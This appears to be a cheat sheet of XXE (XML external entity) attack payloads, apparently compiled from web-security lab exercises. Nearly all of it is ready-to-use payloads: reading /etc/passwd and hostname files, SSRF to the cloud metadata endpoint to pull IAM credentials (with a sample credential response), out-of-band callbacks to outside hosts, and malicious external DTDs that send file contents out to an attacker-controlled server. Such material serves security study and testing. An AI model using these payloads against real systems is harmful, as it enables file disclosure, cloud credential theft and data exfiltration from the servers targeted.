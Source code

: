 -  XXE -> Basic LFI
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```
- XXE -> SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
- XXE -> Out of Band Interaction
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://rgbxdmmdxsj6xufq1help1jaa1gs4is7.oastify.com'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
- XXE -> Out of Band Interaction via parameter entity
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://i6po3dc4nj9xnl5hr84cfs910s6juaiz.oastify.com"> %xxe; ]>
```
- XXE -> Exfiltrate data with .dtd
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://7jrdg2pt08mm0ai64xh1shmqdhj97zvo.oastify.com?x=%file;'>">
%eval;
%error;
```
- XXE -> Exfiltrate data via error messages
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
- XXE -> Use XInclude in a parameter (url encode the payload)
```html
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>
```
- XXE -> XXE on svg
```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
#### XXE to perform SSRF
```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

##### Blind XXE with out-of-band interaction
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://rgbxdmmdxsj6xufq1help1jaa1gs4is7.oastify.com'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

##### Blind XXE with out-of-band-interaction via XML parameter entities
Get a DNS response
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://i6po3dc4nj9xnl5hr84cfs910s6juaiz.oastify.com"> %xxe; ]>
```

##### Exploiting blind XXE to exfiltrate data using a malicious external DTD
Save DTD file on your side "ext.dtd"
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://7jrdg2pt08mm0ai64xh1shmqdhj97zvo.oastify.com?x=%file;'>">
%eval;
%error;
```

Send XML payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yoursite/ext.dtd"> %xxe;]>
```


##### Exploiting blind XXE to retrieve data via error messages
When we try the payload from the previous exercise, we get an error, then we try to abuse that error to display file contents:
```"XML parser exited with error: java.net.MalformedURLException: Illegal character in URL"```
save DTD
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Send payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yoursite/ext.dtd"> %xxe;]>
```
The error will contain the name of the file, and the name of the file is the content of etc/passwd

##### Abusing XInclude
```html
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```html
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```
##### XXE on svg image
```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

##### xmlns load etc/passwd
```
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```
